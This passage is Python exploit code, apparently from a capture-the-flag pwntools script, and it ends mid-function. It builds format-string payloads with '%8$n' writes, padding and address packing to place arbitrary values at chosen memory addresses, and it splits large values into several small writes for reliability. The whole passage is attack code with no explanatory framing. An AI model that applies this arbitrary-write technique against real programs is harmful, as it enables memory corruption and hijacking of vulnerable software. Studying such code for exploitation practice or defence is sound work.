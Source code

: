 ```python
p.sendline(b'Junk')
p.recvline().decode('utf-8')
p.recvline().decode('utf-8')
p.recvline().decode('utf-8')


def fmt_str(write):
    p.sendline(write)
    return p.recvline().decode('utf-8').strip('\n').split(' ')[-1]


# a function that writes data to specified address
# dont use this directly writing large values on stack will take too much time
def raw_writer(what, where):
    address = p64(where)
    #print(address)
    
    
    # code to write large values to the stack
    value = str(int(what, 16))
    lval = len(value)
    padding = b'A'*(16 - lval - 5 - 2)
    print(len(padding),end='')
    value = str(int(value) - len(padding))
    
    # just some stupid edge cases
    expad = ""
    while len(value+expad) != lval and lval >50:
        expad += 'x'
        value = str(int(value) - 1)

    value = str(value+expad).encode()

    format_string = padding + b"%" + value + b"x" b'%8$n ' + address 


	# code to write smaller values like 0, 1, 10 to target
    if int(what,16) < 50:
        #print('altwrt')
        value = int(what,16)
        padding = b'B' * value
        padder = b'C' * (16-5-len(padding))
        format_string = padding + b'%8$n ' + padder + address 
    

    bad_check(address)
    format_string += b'\n'

    #input('send payload ??')
    p.sendline(format_string)
    return p.recvline()


# Writes large data to specified address using lots of small writes
# this makes it faster and stable
def write(what, where):
    val2wrt = what[2:]
    while len(val2wrt) % 4 != 0:
        val2wrt = '0' + val2wrt
    values = []
    for x in range(len(val2wrt)//4):
        values.append(val2wrt[4*x: 4*x+4])
    values = values[::-1]
```